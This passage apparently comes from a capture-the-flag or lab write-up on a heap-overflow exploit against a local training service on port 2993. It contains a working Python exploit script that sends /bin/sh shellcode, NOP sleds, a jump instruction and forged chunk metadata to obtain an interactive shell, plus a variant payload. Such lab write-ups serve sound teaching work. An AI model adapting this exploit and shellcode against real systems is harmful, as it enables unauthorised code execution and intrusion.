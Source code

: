 Therefore we pad the end of the `shellcode` with some `'0x90'`s, but any characters is fine. 

We will also add `\xeb\x14` which is a `jmp 0x16` instruct that will skip the address that is written back into the heap. 

```python
import struct
import socket
import telnetlib

def pad_input(s, b):
       return s + (128 - (len(s) + len(b))) * "\x90" + b

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2993))

shellcode = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"


first = pad_input("FSRD" + "\x90" * 8 + "\xeb\x14", shellcode + "\x90" * 16 +  "/")
second = pad_input("FSRDROOT", "/" +  "\xfc\xff\xff\xff" * 2 + struct.pack("I", 0x804d410) + struct.pack("I", 0x804e010))
third = "exit"

s.send(first)
s.send(second)
s.send(third)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

In the end, we can also use a variety of different values for the injected offsets e.g.
```python
second = pad_input("FSRDROOT", "/" +  "AAAA" + "\xf6\xff\xff\xff" + struct.pack("I", 0x804d410) + struct.pack("I", 0x804e014))
```
will also work,  since even if we look back past our injected code, it's pretty likely we end up hitting one of our `\x90\x90\x90\x90` blocks that also does not have the `PREV_INUSE` bit set. This is also valid, however you'll probably have to increase the padding of the shellcode, since the `set_foot` call will cause the size be written closer to the start of the first buffer.